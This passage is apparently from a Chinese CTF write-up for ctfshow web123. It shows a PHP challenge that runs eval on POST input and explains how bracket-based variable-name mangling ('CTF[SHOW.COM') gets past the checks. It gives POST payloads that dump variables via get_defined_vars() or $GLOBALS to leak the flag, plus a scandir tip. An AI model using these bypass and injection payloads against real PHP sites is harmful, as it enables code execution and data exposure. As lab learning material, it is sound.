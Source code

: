  **!==  与 ===相对**

**!=  与  ==相对**

所以%0c完全可以绕过

+++

### <font color='orange'>web123-web126</font>

+++

#### 123

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

在php中变量名只有数字字母下划线，被get或者post传入的**变量名**，如果含有`空格、+、[`则会被转化为`_`，所以按理来说我们构造不出`CTF_SHOW.COM`这个变量(因为含有`.`)，但php中有个特性就是如果传入`[`，它被转化为`_`之后，后面的字符就会被保留下来不会被替换，所以payload为`CTF[SHOW.COM`

然后就是一个**eval**

绕过了很多东西，但是可以直接`echo $flag`

或者

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo implode(get_defined_vars())`

**get_defined_vars — 返回由所有已定义变量所组成的数组 **

**implode — 用字符串连接数组元素**  这样就可以**echo**了

或者

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo implode($GLOBALS)`

<font color='pink'>**Tips**</font>

**scanfir**   列出指定路径中的文件和目录

```php
<?php
echo implode(scandir('.'));
var_dump(scandir('.'));//当前目录
var_dump(scandir('E:\xampp\htdocs\test'));//绝对路径哦
?>
//运行结果
[Running] php "e:\xampp\htdocs\test\1.php"
Xdebug: [Step Debug] Time-out connecting to debugging client, waited: 200 ms. Tried: 127.0.0.1:9003 (through xdebug.client_host/xdebug.client_port) :-(
....vscode1.phpflag.phpindex.htmlindex.phparray(7) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
```